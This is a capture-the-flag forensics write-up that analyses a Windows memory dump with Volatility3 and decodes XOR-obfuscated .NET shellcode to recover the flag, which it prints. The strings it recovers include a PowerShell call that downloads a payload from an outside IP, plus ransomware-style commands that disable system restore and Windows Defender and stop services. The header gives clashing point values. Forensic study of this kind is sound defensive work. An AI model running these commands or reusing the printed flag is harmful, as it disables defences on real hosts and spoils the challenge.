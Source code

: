 # Pandora's Bane

Category: Forensics
Difficulty: insane
Points: 1000

************Category************: Forensics

****************Points:**************** 425

************************Difficulty:************************ insane

## Description

Having now the relic, Pandora is trying to create a plan to shut down the vessels. Unfortunately for her, the alien's intel is one step ahead, as they somehow know what she is up to. An incident response operation started as Pandora was sure the aliens had gained access to her teammate's host. Although many compromised hosts were found, only one sample is applicable for further analysis. If you neutralize this threat by analyzing the sample, Pandora will be able to proceed with her plan.

## Walkthrough

### File Analysis

We are given a single file, which is a memory dump. Unfortunately, no profiles were provided, but considering the previous challenge was with Volatility3, we can try and see if it automatically finds the right profile.

```python
vol3 -f mem.raw windows.pslist.PsList
```

and it works! Okay, so the first thing I like to do, is dump the output of the malfind plugin to a file, and check what’s up:

```python
vol3 -f mem.raw   windows.malfind.Malfind > malfind.txt
cat malfind.txt | grep -i vads
```

The processes that are returned are MsMpEng.exe, smartscreen.exe,  and powershell.exe. To be honest, it’s very likely Powershell is the evil file. 

Next, I like to dump the output of the filescan plugin to a text file. It’s good reference, and we can check what type of files there are:

```python
vol3 -f mem.raw  windows.filescan.FileScan > filescan.txt
cat filescan.txt | grep -F '\Users\' | grep -F '.exe'
```

Checking for a bunch of extensions, there is one returned for .txt, which is Powershell’s ConsoleHost_history.txt. Given that the process came back on the Malfind plugin, we can dump its contents: 

```python
vol3 -f mem.raw windows.dumpfiles.DumpFiles --virtaddr 0xdb8d3fd4d790
cat file.0xdb8d3fd4d790.0xdb8d3e24f5e0.DataSectionObject.ConsoleHost_history.txt.dat
#dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart
#whoami /all
```

Well, nothing of interest. Next, we can dump the whole process memory, and check it out with strings. A common word to check in powershell stuff is ‘bypass’

```python
vol3 -f mem.raw  windows.memmap.Memmap --pid 5644 --dump
strings -a -el pid.5644.dmp > pid.5644.dmp.txt
strings -a  pid.5644.dmp >> pid.5644.dmp.txt
cat pid.5644.dmp.txt | grep -i bypass

```

A potential POC ? 

```python
[.invoke('http://137.135.65.29/bypass.txt')
h5disable-computerrestore "c:\"powershell.exe -executionpolicy bypasstaskkill /f /im teamviewer.exetaskkill /f /im jusched.exenet stop mikroclientwservicenet stop mssql$mikronet stop foxitreaderservicewindows defender" /v disableantispyware /t reg_dword /d 1 /fadvanced" /v showsuperhidden /t reg_dword /d 1 /fhowtobackfiles.txt@protonmail.comencrypter

```

Maybe I’m tripping, but we can check the NetScan plugin and see if the address is returned

```python
vol3 -f mem.raw  windows.netscan.NetScan
```

Nothing.. It’s probably a Defender text. 

Now, checking the Powershell dump for ‘Base64’

```python
cat pid.5644.dmp.txt | grep -F Base64
```

and… bingo! There are a lot of different calls for ‘[System.Convert]::FromBase64String’, followed by long base64 encoded strings. We can quickly filter for them, save them to a file and load them in python:

```python

echo "import base64" > my_vals.py
cat pid.5644.dmp.txt | grep -F '[System.Convert]::FromBase64String' | sed 's/^.*FromBase64String/base64\.b64decode/g' | sed '/(\\/d' | tr '\n' ',' >> vals.py

sed -i '1s/^/my_vars = [/' vals.py
sed -i 's/(""),/("")]/g' vals.py
sed -i 's/(\\/(/g' vals.py
cat vals.py >> my_vals.py

```

### Malware Analysis

We have the files saved in a list, now we can import them and write them to a file:

Checking for potential strings:

```python
from my_vals import *
my_vars = [i for i in my_vars if i!= b'']
# had too ... [i for i in my_vars if b'HTB' in i]
[i for i in my_vars if b'HTB' in i] #none
len([i for i in my_vars if b'shellcode' in i])  
#6

[magic.from_buffer(i) for i in my_vars]
#all .NET 
```

We could try and dump the shellcodes directly using subprocess and calling ilspycmd, since they’re all .net assemblies

```python
import subprocess
from pwn import xor
import shutil
import glob
import os

def sub_process(fname,i):
    command = ['ilspycmd', '-o', str(i), '-p', fname]
    p = subprocess.Popen(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout, stderr = p.communicate()

```

```python
os.mkdir('shells')
for i in range(len(my_vars)):
    fname = 'shells/' + str(i) + '.exe'
    with open(fname, 'wb') as of:
        of.write(my_vars[i])
    os.mkdir('shells/'+str(i))
    sub_process(fname,'shells/'+str(i))
    shutil.rmtree('shells/' + str(i) + '/Properties')
    for file in glob.glob('shells/'+str(i) + '/*/**' ,recursive=True):
        if file.endswith('.cs'):
            dat = open(file,'r').read()
            if 'shellcode' in dat:
                pt = dat.replace('\t','').replace('\n','')
                shellcode_idx = pt.find('shellcode')
                end_arr = pt[shellcode_idx:].find('}')
                shellcode = pt[shellcode_idx:shellcode_idx+end_arr]
                shellcode = eval(shellcode[shellcode.find('{')+1:])
                key_idx = pt[shellcode_idx+end_arr:].find('{') 
                key_end = pt[shellcode_idx+end_arr+key_idx:].find('}')
                key = eval(pt[shellcode_idx+end_arr+key_idx:shellcode_idx+end_arr+key_idx+key_end][1:])
                enced = xor(shellcode,key)
                if b'HTB' in enced:
                    print(enced[enced.find(b'HTB'):])
                else:
                    print(enced)

#b"HTB{wsl_ox1d4t10n_4nd_rusty_m3m0ry_4rt1f4cts!!}' -AsPlainText -Force)\x00"

```

**************Flag:************** HTB{wsl_ox1d4t10n_4nd_rusty_m3m0ry_4rt1f4cts!!}